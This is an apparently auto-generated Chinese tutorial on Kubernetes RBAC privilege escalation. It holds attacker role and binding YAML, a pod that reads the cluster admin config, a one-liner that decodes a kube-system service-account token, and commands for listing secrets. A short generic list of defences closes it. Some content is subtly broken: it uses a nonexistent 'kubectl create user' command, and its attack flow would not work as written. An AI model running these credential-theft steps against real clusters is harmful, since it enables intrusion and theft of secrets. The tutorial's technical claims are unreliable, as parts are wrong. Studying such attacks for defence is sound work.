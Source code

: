 # Kubernetes RBAC提权的攻击技术

## 1. 技术原理解析

### 1.1 Kubernetes RBAC概述
Kubernetes Role-Based Access Control (RBAC) 是一种基于角色的访问控制机制，用于管理用户和服务账户对Kubernetes资源的访问权限。RBAC通过定义角色（Role）和角色绑定（RoleBinding）来控制权限。

- **Role**：定义了一组权限，指定了对哪些资源可以执行哪些操作。
- **RoleBinding**：将角色绑定到特定的用户、组或服务账户，从而授予他们相应的权限。

### 1.2 RBAC提权的底层机制
RBAC提权攻击的核心在于利用Kubernetes RBAC配置中的漏洞或错误，通过获取或提升权限来执行未经授权的操作。常见的攻击手法包括：

- **权限提升**：通过修改或创建新的Role或RoleBinding，将更高的权限授予攻击者。
- **权限滥用**：利用已有的权限执行恶意操作，如创建Pod、访问敏感数据等。
- **服务账户滥用**：通过获取高权限服务账户的Token，执行特权操作。

### 1.3 攻击场景
- **未授权访问**：攻击者通过未授权的访问获取低权限账户，然后利用RBAC配置漏洞提升权限。
- **配置错误**：管理员错误地配置了Role或RoleBinding，导致攻击者可以获取或提升权限。
- **服务账户泄露**：攻击者获取了高权限服务账户的Token，直接执行特权操作。

## 2. 常见攻击手法和利用方式

### 2.1 权限提升
#### 2.1.1 创建或修改Role
攻击者可以通过创建或修改Role来提升权限。例如，攻击者可以创建一个新的Role，授予自己更高的权限，然后通过RoleBinding将其绑定到自己的账户。

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default
  name: attacker-role
rules:
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["get", "list", "create", "delete"]
```

#### 2.1.2 创建或修改RoleBinding
攻击者可以通过创建或修改RoleBinding，将已有的高权限Role绑定到自己的账户。

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: attacker-binding
  namespace: default
subjects:
- kind: User
  name: attacker
  apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: Role
  name: attacker-role
  apiGroup: rbac.authorization.k8s.io
```

### 2.2 权限滥用
#### 2.2.1 创建恶意Pod
攻击者可以利用已有的权限创建恶意Pod，执行特权操作或访问敏感数据。

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: malicious-pod
spec:
  containers:
  - name: malicious-container
    image: busybox
    command: ["/bin/sh", "-c", "cat /etc/kubernetes/admin.conf"]
```

#### 2.2.2 访问敏感数据
攻击者可以利用已有的权限访问敏感数据，如Secrets、ConfigMaps等。

```bash
kubectl get secrets -n kube-system
```

### 2.3 服务账户滥用
#### 2.3.1 获取高权限服务账户Token
攻击者可以通过获取高权限服务账户的Token，直接执行特权操作。

```bash
kubectl -n kube-system get secret $(kubectl -n kube-system get sa/admin -o jsonpath="{.secrets[0].name}") -o jsonpath="{.data.token}" | base64 --decode
```

#### 2.3.2 使用Token执行特权操作
攻击者可以使用获取的Token执行特权操作，如创建Pod、删除资源等。

```bash
kubectl --token=<token> create -f malicious-pod.yaml
```

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
#### 3.1.1 安装Kubernetes集群
使用Minikube或Kind等工具快速搭建一个Kubernetes集群。

```bash
minikube start
```

#### 3.1.2 创建低权限用户
创建一个低权限用户，用于模拟攻击者。

```bash
kubectl create user attacker
kubectl create role attacker-role --verb=get,list --resource=pods
kubectl create rolebinding attacker-binding --role=attacker-role --user=attacker
```

### 3.2 攻击步骤
#### 3.2.1 获取低权限账户
攻击者首先获取低权限账户的凭证。

```bash
kubectl config set-credentials attacker --token=<low-privilege-token>
kubectl config set-context attacker-context --cluster=minikube --user=attacker
kubectl config use-context attacker-context
```

#### 3.2.2 创建或修改Role
攻击者尝试创建或修改Role，提升权限。

```bash
kubectl apply -f attacker-role.yaml
```

#### 3.2.3 创建或修改RoleBinding
攻击者尝试创建或修改RoleBinding，将高权限Role绑定到自己的账户。

```bash
kubectl apply -f attacker-binding.yaml
```

#### 3.2.4 执行特权操作
攻击者利用提升的权限执行特权操作，如创建恶意Pod、访问敏感数据等。

```bash
kubectl create -f malicious-pod.yaml
kubectl get secrets -n kube-system
```

## 4. 实际命令、代码或工具使用说明

### 4.1 常用命令
- **创建用户**：`kubectl create user <username>`
- **创建Role**：`kubectl create role <role-name> --verb=<verbs> --resource=<resources>`
- **创建RoleBinding**：`kubectl create rolebinding <binding-name> --role=<role-name> --user=<username>`
- **获取Secrets**：`kubectl get secrets -n <namespace>`
- **创建Pod**：`kubectl create -f <pod-definition.yaml>`

### 4.2 工具使用
- **kubectl**：Kubernetes命令行工具，用于管理集群资源。
- **Minikube**：用于快速搭建本地Kubernetes集群的工具。
- **Kind**：用于在Docker容器中运行Kubernetes集群的工具。

## 5. 防御措施
- **最小权限原则**：确保每个用户和服务账户只拥有执行其任务所需的最小权限。
- **定期审计**：定期审计RBAC配置，确保没有不必要的权限授予。
- **使用命名空间**：将不同环境的资源隔离到不同的命名空间中，减少攻击面。
- **监控和告警**：实时监控集群活动，及时发现和响应异常行为。

通过深入理解Kubernetes RBAC的机制和常见攻击手法，管理员可以更好地配置和管理集群权限，防止RBAC提权攻击的发生。

---

*文档生成时间: 2025-03-14 12:27:41*
